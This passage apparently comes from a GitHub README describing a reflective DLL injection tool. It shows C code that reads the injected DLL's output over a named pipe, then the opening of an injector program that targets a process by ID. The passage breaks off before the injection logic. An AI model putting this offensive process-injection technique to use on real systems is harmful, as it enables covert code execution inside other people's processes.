 ```c
		printf("Error Creating Thread: %ld\n", GetLastError());
	}
}

BOOL isPipeThreadRunning()
{
	DWORD exitCode;
	return GetExitCodeThread(hThread, &exitCode);
}

std::string ReadReflectiveDllOutput(int Timeout)
{
	int x = 0;
	if (Run)
	{
		do {
			Sleep(1000);
			x++;
		} while (x != Timeout);

		Run = FALSE; // The thread ends.

	}
	return OUTPUT.str();
}
```
Before Injection of the DLL, The Prepare(); function is called which starts the Named Pipe Thread to receive the DLL Output. You can see example usage of this here :

https://github.com/quantumcored/ReflectiveDLLInjection/blob/master/inject/src/Inject.cpp
```c
#define WIN32_LEAN_AND_MEAN
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include "Output.h"
#include "LoadLibraryR.h"
#include <iostream>

#pragma comment(lib,"Advapi32.lib")

#define BREAK_WITH_ERROR( e ) { printf( "[-] %s. Error=%d", e, GetLastError() ); break; }

// Simple app to inject a reflective DLL into a process vis its process ID.
int main( int argc, char * argv[] )
{
	HANDLE hFile          = NULL;
	HANDLE hModule        = NULL;
	HANDLE hProcess       = NULL;
	HANDLE hToken         = NULL;
	LPVOID lpBuffer       = NULL;
	DWORD dwLength        = 0;
	DWORD dwBytesRead     = 0;
	DWORD dwProcessId     = 0;
	TOKEN_PRIVILEGES priv = {0};

#ifdef WIN_X64
	char * cpDllFile  = "reflective_dll.x64.dll";
#else
#ifdef WIN_X86
	char * cpDllFile  = "reflective_dll.dll";
#else WIN_ARM
	char * cpDllFile  = "reflective_dll.arm.dll";
#endif
```